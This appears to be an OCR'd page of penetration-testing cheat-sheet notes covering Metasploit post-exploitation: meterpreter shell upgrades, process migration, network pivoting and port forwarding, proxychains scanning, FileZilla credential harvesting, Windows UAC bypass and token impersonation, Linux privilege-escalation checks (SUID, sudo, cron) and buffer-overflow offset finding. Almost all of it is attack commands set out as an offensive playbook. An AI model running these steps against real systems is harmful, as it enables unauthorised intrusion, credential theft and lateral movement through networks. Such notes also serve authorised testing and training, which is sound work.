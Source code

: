       - use post/multi/manage/shell_to_meterpreter
  - meterpreter = Architecture for os
      - ps -A x86_64 -s 
      - migrate [pid]
  #  Pivoting
   - meterpreter> run autoroute -s IP/24
   - Ping-sweep the network
      - meterpreter > run arp_scanner -r IP/24
   - Scan each host
      - use auxiliary/scanner/portscan/tcp
   - port forwarding
      - portfwd add -l <attacker port> -p <victim port> -r <victim ip>
      - portfwd add -l 3306 -p 3306 -r 192.168.222
   - we can access this port on our machine locally like this.
      - nc IP Port
      - nc 127.0.0.1 3306
   - proxychains nc IP PORT
   - proxychains :
      - use auxiliary/server/socks4a
      - use auxiliary/server/socks_proxy
   - proxychains nmap -sTV -Pn IP
   - proxychains nmap -sTV -p 21 -Pn IP
   - List of installed application
   - run post/windows/gather/enum_applications
   - to get credentials from FTP software like FileZilla,
      - run post/multi/gather/filezilla_client_cred
# Privilege Escalation techniques - Windows
  - get system
  - User Account Control is enabled : UAC true ?
     - meterpreter > run post/windows/gather/win_privs
     - use exploit/windows/local/bypassuac
  - meterpreter > use incognito
     - meterpreter > list_tokens -u
     - meterpreter > impersonate_token [Write Token]
  - Local Exploit Suggester:
     - use post/multi/recon/local_exploit_suggester
         - set session [write session num]
  - 
# Linux Privilege Escalation
  - Kernel exploits
     - uname -a 
     - search in exploit db or using metasp… like :
     - glibc_ld_audit_dso_load_priv_esc
 - services which are running as root
     - ps -aux | grep root 
      - netstat -antup
 - SUID 
      - find / -perm -u=s -type f 2>/dev/null 
 - SUDO sudo -l 
 - Exploiting badly configured cron jobs
      - prints cron jobs which are already present in cron.d ls -la /etc/cron.d 
      - find / -perm -2 -type f 2>/dev/null
 # BufferOver flow
   - Create unique string: 
       - !mona pc [1000]
   - Find the write offset
       - !mona po [write the address in EIP]